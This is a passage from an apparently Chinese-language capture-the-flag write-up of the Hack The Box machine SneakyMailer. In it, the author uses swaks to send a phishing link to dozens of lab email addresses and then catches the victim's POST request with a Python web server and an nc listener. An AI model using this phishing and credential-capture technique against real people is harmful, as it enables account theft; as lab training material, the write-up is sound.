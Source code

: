      -> To: tigernixon@sneakymailer.htb,garrettwinters@sneakymailer.htb,ashtoncox@sneakymailer.htb,cedrickelly@sneakymailer.htb,airisatou@sneakymailer.htb,briellewilliamson@sneakymailer.htb,herrodchandler@sneakymailer.htb,rhonadavidson@sne
    akymailer.htb,colleenhurst@sneakymailer.htb,sonyafrost@sneakymailer.htb,jenagaines@sneakymailer.htb,quinnflynn@sneakymailer.htb,chardemarshall@sneakymailer.htb,haleykennedy@sneakymailer.htb,tatyanafitzpatrick@sneakymailer.htb,michaelsi
    lva@sneakymailer.htb,paulbyrd@sneakymailer.htb,glorialittle@sneakymailer.htb,bradleygreer@sneakymailer.htb,dairios@sneakymailer.htb,jenettecaldwell@sneakymailer.htb,yuriberry@sneakymailer.htb,caesarvance@sneakymailer.htb,doriswilder@sn
    eakymailer.htb,angelicaramos@sneakymailer.htb,gavinjoyce@sneakymailer.htb,jenniferchang@sneakymailer.htb,brendenwagner@sneakymailer.htb,fionagreen@sneakymailer.htb,shouitou@sneakymailer.htb,michellehouse@sneakymailer.htb,sukiburks@snea
    kymailer.htb,prescottbartlett@sneakymailer.htb,gavincortez@sneakymailer.htb,martenamccray@sneakymailer.htb,unitybutler@sneakymailer.htb,howardhatfield@sneakymailer.htb,hopefuentes@sneakymailer.htb,vivianharrell@sneakymailer.htb,timothy
    mooney@sneakymailer.htb,jacksonbradshaw@sneakymailer.htb,olivialiang@sneakymailer.htb,brunonash@sneakymailer.htb,sakurayamamoto@sneakymailer.htb,thorwalton@sneakymailer.htb,finncamacho@sneakymailer.htb,sergebaldwin@sneakymailer.htb,zen
    aidafrank@sneakymailer.htb,zoritaserrano@sneakymailer.htb,jenniferacosta@sneakymailer.htb,carastevens@sneakymailer.htb,hermionebutler@sneakymailer.htb,laelgreer@sneakymailer.htb,jonasalexander@sneakymailer.htb,shaddecker@sneakymailer.h
    tb,sulcud@sneakymailer.htb,donnasnider@sneakymailer.htb,
     -> From: test@sneakymailer.htb
     -> Subject: test
     -> Message-Id: <20200712105555.099308@kali>
     -> X-Mailer: swaks v20190914.0 jetmore.org/john/code/swaks/
     -> 
     -> please click here http://10.10.14.42/
     -> 
     -> 
     -> .
    <-  250 2.0.0 Ok: queued as 5143C24808
     -> QUIT
    <-  221 2.0.0 Bye
    === Connection closed with remote host.
    

我的电子邮件的正文是我自己的链接。我会让Python的模块监听。奇怪的是，一个POST请求回来了：`http.server`

    root@kali# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.197 - - [12/Jul/2020 10:51:01] code 501, message Unsupported method ('POST')
    10.10.10.197 - - [12/Jul/2020 10:51:01] "POST / HTTP/1.1" 501 -
    

我停止了它并在端口80上打开以捕获请求，并再次发送了网络钓鱼：`nc`

    root@kali# nc -lnvp 80
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::80
    Ncat: Listening on 0.0.0.0:80
    Ncat: Connection from 10.10.10.197.
    Ncat: Connection from 10.10.10.197:58924.
    POST / HTTP/1.1
    Host: 10.10.14.42
    User-Agent: python-requests/2.23.0
    Accept-Encoding: gzip, deflate
    Accept: */*
    Connection: keep-alive
    Content-Length: 185
    Content-Type: application/x-www-form-urlencoded
    